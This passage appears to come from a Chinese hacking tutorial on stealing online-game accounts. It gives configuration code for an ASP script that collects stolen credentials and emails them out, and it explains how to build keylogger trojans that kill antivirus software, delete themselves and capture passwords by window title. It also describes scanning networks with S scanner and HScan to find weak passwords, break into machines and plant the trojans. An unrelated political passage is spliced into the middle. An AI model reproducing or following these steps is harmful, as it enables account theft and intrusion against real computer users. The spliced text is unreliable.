目录下的 login.asp 文件是发信文件，我们在把文件上传到空间前需要做好配置。下面是配置信息，我们可以根据注释填写。

```asp
' 配置信息
Fname = "Pass.Txt"          ' Fso保存文件的名称
Subject = "热血江湖信件" & Chr(32) & Now   ' 发信的邮件标题
SmtpMail = "xxxx@163.com"    ' 发信人邮箱地址（重要设置项）
SmtpUserName = "xxxx"        ' 发信邮箱用户名（重要设置项）
SmtpPass = "xxxx"            ' 发信邮箱密码（重要设置项）
SmtpServer = "smtp.163.com"  ' 发信Smtp地址信息（重要设置项）
```

```vb
126 发信邮箱就改成：smtp.126.com
SmtpName = "Windows"      ' 发信人名称，可自行更改
FsoGood = "True"          ' 是否将邮件写到文本里
JmailGood = "True"        ' 是否将邮件发到邮箱里
```

第一项就是文件收到账号信息后把它保存在什么文件内，需要换一个文件名，像 **zygrxjh.asp**，防止别人利用默认文件名下载你的数据信息。下面的是发送邮件的设置项，发信标题就不用更改了。发件邮箱我用 21CN 的邮箱为例，依次填写邮箱的地址、用户名和密码。因为用的是 21CN 的邮箱，Smtp 地址换成“smtp.21cn.com”。发信人名称改成：玩家。如果 **FsoGood** 的值是 “True” 时，文件把信息保存在指定文本中；赋予别的值时文件不会保存，这里不是只能用 True 或 False。最后一项也是如此，当赋予别的值时就不发送邮件；如果你空间没有安装 JMAIL 组件时可以用到此项参数。你看了下面的代码就明白我为什么那么说了。

```vb
IF FsoGood = "True" Then
    Call FsoSavefile()    ' 调用 Fso 保存文件函数
End IF

IF JmailGood = "True" Then
    Call SendMail()       ' 调用发送邮件函数
End IF
```

程序只判断 **FsoGood** 和 **JmailGood** 的值是否等于 **True**，等式成立就执行下面的内容。

现在 **login.asp** 设置好了，我们把它传到空间上，测试一下能否收到信件。在木马发信的同时我可以用 WSockExpert 抓包看看木马都发送了什么数据。启动 WSockExpert，选择打开进程，我们要监听的程序当然是江湖黑手免费生成器了，我们选择打开第二项才能监听到发信数据（图 2.40）。



## 第二章 网游的末日——网游木马大接触

在木马上填写好信息后点击测试发信，结果如图 2.41。现在我们回过头来看看 WSock Expert 都监听到了什么数据，如图 2.42。



图 2.41

从图中可以看出木马向 login.asp 文件发送数据，其中红线标识的是所发送的账号信息，蓝颜色表示的是我们收件箱。通过对木马的监听，我们弄清了它的发信原理，这招可是很管用的，要记住哟。图 2.43、2.44 是我们收到的测试信件。



图 2.42



图 2.43



图 2.44

最后点击生成服务端，在目录下会生成一个 install.exe 文件。热血江湖的木马配置大家都会了吧，拿出木马操练一下吧。

### 2.8 综合密码盗取

前面说的都是主流游戏的盗号木马，非主流网游可能还没有专门的盗号软件，谁让咱人气不行呢。难道就没有办法了吗？当然不可能了，我们可以使用综合的盗号软件。这类键盘记录软件会把关于密码的信息全部记录下来，像邮箱密码、论坛密码、聊天软件密码、联众、浩方和各个网游等，总之就是密码全记录。

首先介绍的是小熊密码全功能试用版，这个版本在功能使用上没有限制，收到的密码也没有被屏蔽几位。软件采用系统 Hook 技术，使密码能够准确截获下来，所以对于采用复制粘贴输入的密码同样能够完全截获。这个软件可以截获 Windows（98/ME/2000/XP/2003）平台下几乎所有的密码。经过检测，可以截获以下三类密码：

- **一般视窗程序密码。**例如 QQ、UC、ICQ、MSN、Windows 系统密码、FTP、电子邮件客户端（Outlook、Foxmail 等）、股票委托系统、管理认证系统等含有密码的窗口均可以被截获。
- **网页密码。**对于使用任何网页浏览器，例如 IE、MyIE、腾讯 IE 等，如在浏览的网页中含有密码，将会截获下来。
- **游戏密码。**除了一般的游戏登录（例如浩方等）能截获外，对网络游戏，诸如仙境传说、奇迹、传奇、天堂、千年、红月等绝大多数网络游戏，也能够截获。



居然能截取这么多种密码，我还是赶快说说怎么配置这个木马：打开小熊密码全功能试用版，界面如图 2.45 所示。这个软件记录密码后可以发送到邮箱中，也可以保存在本地。木马利用 MX 特快技术发送邮件，经过我的不断测试发现 21cn 的邮箱支持 MX 特快，测试网易邮箱时会出现拒绝现象（图 2.46），在生成服务端前一定要测试你的邮箱是否能接收到信件。我们填写好邮箱地址和邮件标题后点击测试，如果成功就会有如图 2.47 的提示。服务端配置中的“运行提示”就不用填写，你也不希望别人执行完了还有这种提示，明眼人一看就知道是木马。“初次运行后删除自身”建议勾选，“本地保存不邮寄”这个就看个人需要了。

图 2.45

## 第三章 网游的末日——网游木马大揭秘



在本地查看时点击上边那个“本机查看”，再点击对话框中的查看（图 2.48）。“运行关闭常用防火墙”这个一定要选上，我可不愿意在发送邮件时被防火墙拦下来。程序是采用特征码技术监测金山、江民、瑞星、诺顿等各类反病毒防火墙软件，可以关闭已有的版本和未来版本。





这些都设置完成后，点击生成配置就能生成一个名字为“小熊88.exe”的服务端。如果你一开始没有测试邮件，这时还会提醒你未测试邮件（图 2.49 是邮箱密码信件）。


| 原发件人 | 日期 | 主题 | 收件人 |
|---|---|---|---|
| lengjing@lply.net | 2006-04-12 10:39 | 我的密码 | jinchengwu2@21cn.com |

窗口：邮箱-21CN.COM 免费邮箱 企业邮箱 - Microsoft Internet Explorer  
http://mail.21cn.com/  
文本框：jinchengwu2  
密码框：********

图 2.49

小熊密码全功能试用版虽然能截取很多种密码，但是我们不能保证它能截取所有我们想要的密码。我下面将给大家介绍的红蜘蛛键盘记录器，就可以截取我们指定的密码。

运行红蜘蛛键盘记录器，界面如图 2.50。图中是我刚才填写的配置信息。这个木马是通过我们添加的窗口标题截取密码，比如我想截取梦幻西游的账号密码，而梦幻西游的窗口标题是“梦幻西游 ONLINE”（图 2.51），在设置窗口标题关键字中填写“梦幻”，点击添加，木马就会截取含有“梦幻”两个字的所有窗口的账号密码处的输入。


图 2.50


图 2.51

如果我们添加“ONLINE”关键字，估计能截到很多网游的账号。通过设置这个地方，我们就能做到指哪打哪。

## 第二章 网游的末日——网游木马大接触

红蜘蛛键盘记录器发送密码信息是通过邮箱发送，是使用同一个邮箱发送并接收。发信时间间隔的范围是在五至九十九分钟之间。设置完毕，点击生成服务端，在目录下就会生成一个“红蜘蛛 v11 版.exe”文件。此木马运行后采用插入进程，无独立进程，在生成服务端时提示我们不要重复运行。图 2.52 为收到的梦幻西游密码。


图 2.52

## 世界形势和中国道路

## 第三章 我国的政治——网格政治大提纲

必须坚持和完善人民代表大会制度，不断完善中国特色社会主义制度体系。

我国社会主义制度是一个严密完整的科学制度体系，起四梁八柱作用的是根本制度、基本制度、重要制度。

> 阿菜：“那么，这些配置好的网游木马该如何使用才能弄到对方的网游号呢？”

阿黑：“我们接下来要做的就是利用一些漏洞扫描工具找到有安全漏洞的电脑，然后入侵进去，再将配置好的网游木马传到对方的电脑上去执行。这样，当对方登录网游时，我们的网游木马就会将对方的用户和密码发到我们的邮箱里了。”

### 3.1 扫描工具的使用

我们要入侵一台电脑，就得先要知道那台电脑存在什么漏洞，然后才能使用相应的漏洞工具进行攻击。如何才能知道对方的电脑都会存在什么安全漏洞呢？最常用的就是利用扫描工具来进行检测了。

扫描工具有很多种，既有单一的端口扫描工具，又有综合的漏洞扫描工具。功能越单一体积越小，越便于携带。比如号称世界最快的 S 扫描器只有 8K 大小。这个 S 扫描器是在命令行界面下操作的，没有图形界面，这就大大减少了体积。跟我来看看怎么使用这个世界最快的扫描器吧，它在命令行下的操作十分简单。我们在命令行下执行程序就会有帮助信息，如下：

```text
TCP Port Scanner V1.1 By WinEggDrop

Usage: s TCP/SYN StartIP [EndIP] Ports [Threads] [/Banner] [/Save]

Example: s TCP 12.12.12.12 12.12.12.254 80 512
Example: s TCP 12.12.12.12 1-65535 512
Example: s TCP 12.12.12.12 12.12.12.254 21,3389,5631 512
Example: s TCP 12.12.12.12 21,3389,5631 512
Example: s SYN 12.12.12.12 12.12.12.254 80
Example: s SYN 12.12.12.12 1-65535
Example: s SYN 12.12.12.12 12.12.12.254 21,80,3389
Example: s SYN 12.12.12.12 21,80,3389
```

S 扫描器有两种扫描方式：TCP 和 SYN，这两种都有各自的优缺点。TCP 扫描是最基本的扫描方式。TCP 扫描通过调用系统来试图对任何可能的端口进行连接。如果这个端口正处于监听状态，调用来的函数将表明此端口处于监听状态，反之表明这个端口没有打开。这种扫描方式速度十分地快，一般情况下可以使用代理服务器或多线程同时扫描，可以说是速度最快的扫描方式。然而 TCP 扫描也存在一个很大的问题，那就是这种扫描方式很容易被发现并被防火墙或过滤器过滤掉，目标主机相应地产生大量的错误日志并可断掉连接。SYN 扫描是扫描主机向目标主机的端口发送 SYN 数据段。如果应答是 RST，那么说明端口是关闭的，按照设定就探听其它端口；如果应答中包含 SYN 和 ACK，说明目标端口处于监听状态。由于所有的扫描主机都需要知道这个信息，传送一个 RST 给目标机从而停止建立连接。由于在 SYN 扫描时，全部连接尚未建立，所以这种技术通常被称为半打开扫描。SYN 扫描的优点在于即使日志中对扫描有所记录，但是尝试进行连接的记录也要比全扫描少得多。因为 SYN 没有使用一个完全的 TCP 连接，所以它的速度要稍快一些，但也容易产生误报。我们在局域网中进行入侵，不用担心日志的问题。为了提高扫描的准确率，我们还是选择 TCP 扫描方式。

S 扫描器能扫描单个 IP，也能扫描一个 IP 段。我们看软件帮助中的说明，输入一个 IP 段的起始 IP 和中止 IP 要用空格隔开。输入需要扫描的端口用逗号隔开，表示范围用 1-65535 这种形式。我们看到例子中有 512 这个参数，它在端口后表示 S 扫描器所开启的线程。这个数字不宜过大，容易造成网络堵塞，使用 512 就可以。加上“/Banner”参数可以获取端口标示；加上“/Save”参数是把扫描的结果保存在同目录下 Result.txt 文件中。如果我要扫描我的 IP 地址范围的 139 端口是否开启，则输入：


图 3.1

```text
s tcp 192.168.0.1 192.168.0.255 139 512
```

结果如图 3.1。从图 3.1 中可以看出我们的整个扫描全过程只花了 4 秒钟，速度一流吧？这么好用的扫描工具现在也有可视版了，是天涯浪客编写的。我们打开可视化的 S 扫描器，界面如图 3.2。


图 3.2

界面简单明了，详细使用过程就不啰嗦了，只说几点注意事项。图中黑框标示处是作者新添加的功能，解决了使用 Windows XP SP2 系统不能使用 S 扫描器的问题。使用 Windows SP2 的用户只要勾选上 Windows SP2，就可以使用 S 扫描器了。端口设置的填写和命令行下一样，如图 3.3。我们点击“关于作者”，会出现作者的介绍和联系方式，并且有三个常用工具的按钮（图 3.4）。我们来实际扫描一个 IP 段的 445 端口，结果如图 3.5。点击开始后，发现程序的目录下生成一个 IP.BAT 文件，打开后的内容是：……看来这个文件是执行扫描用的。

## 第三章 致命的攻击——网游攻击大揭秘

```text
s.exe syn
192.168.0.1 192.168.0.200 445 /save
```


S 扫描器是一款非常出色的端口扫描工具，但它的功能十分单一。如果需要扫描一个主机有什么漏洞，那就需要使用综合扫描工具。这类扫描器我们最熟知的就是 X-SCAN，它扫描的漏洞比较全面，而且扫描结果会以 HTML 网页文件格式报告，具体的解释和修补建议，方便我们寻找漏洞利用工具或修补漏洞。

功能这么强大的软件，它的体积自然也不小，这样就不方便携带。由于它扫描的漏洞众多，所以加载漏洞脚本的时间过长。我推荐一款比较适合我们小菜使用的扫描器 HScan。首先它的体积够小、速度够快；其次它也能扫描很多种服务的漏洞。HScan 是红客联盟发布的工具，有命令行版也有图形版，我给大家介绍的这个版本是经过容笑汉化的。我们还是先来看看命令行版的使用，软件帮助信息如图 3.6。

命令行没有经过汉化，不过不要紧，让我来慢慢介绍。它的使用方法和 S 扫描器差不多，只不过多了几个扫描漏洞的选项而已。想学习这种命令行工具的使用，我们可以从作者给出的例子中分析用法，再结合具体参数的使用，还是很轻松的。先来看作者给出的三个使用例子，程序名后紧跟的就是我们要扫描的目标，参数“--h”后可以用域名、单个 IP 或 IP 段（起始 IP 和中止 IP 用空格隔开），当需要从文件中读取主机时要用参数“--f”。输入完我们的扫描目标后，接着要输入我们都要扫描目标主机的什么漏洞。HScan 的扫描项目非常多，下边是我对每个项目的中文解释。

| 选项 | 说明 |
|---|---|
| --name | 获取主机名 |
| --port | 默认端口扫描 |
| --ftp | FTP Banner、匿名用户、弱口令账号扫描 |
| --ssh | SSH Banner 扫描 |
| --telnet | TELNET Banner 扫描 |
| --smtp | SMTP Banner、匿名用户、弱口令账号扫描 |
| --finger | FINGER 漏洞（SunOS/Solaris 用户列表扫描） |
| --iis | IIS 漏洞扫描 |
| --cgi | Unix/NT CGI 漏洞扫描 |
| --pop | POP3 Banner、弱口令账号扫描 |
| --ipc | Windows NT/2000 用户列表获取、弱口令账号扫描 |
| --imap | IMAP Banner、弱口令账号扫描 |
| --mssql | MSSQL 弱口令账号扫描 |
| --mysql | MYSQL 弱口令账号扫描 |
| --cisco | CISCO 弱口令扫描 |
| --plugin | PLUGIN 扫描 |
| --all | 检测以上所有项目 |

我们可以发现这个扫描工具所扫描的项目大多是服务的弱口令，这也正是我们小菜所喜欢利用的。如果你懒得挑选扫描项目就选用“-all”参数，它可以把所有的漏洞都检查一遍，只不过时间会稍长一些。程序除了漏洞选项外还有设置线程的选项和连接超时的选项，这些我们可以不用填写，保持默认就行。如果想在扫描的过程中让它停下来，按 F8 键可以做到。


在命令行输入：`hscan -h 127.0.0.1 -all`，我扫描一下自己的机器看看有没有漏洞，结果如图 3.7。IP 后面的括号中是我的主机名称，开放了 5 个端口，没有发现漏洞。在程序扫描开始时会显示如下信息：

```text
loading user and password lists ......
loading all cgi lists ......
loading plugin: fpe2k.hsp ......
loading plugin: luenum.hsp ......
loading plugin: qpop.hsp ......
loading plugin: sunftp.hsp ......
```

看懂了吗？程序在加载漏洞脚本，想到什么了吗？对，我们可以自己丰富这些脚本文件。第一行显示加载了保存用户名和密码的文件，这些文件在 conf 文件夹下。


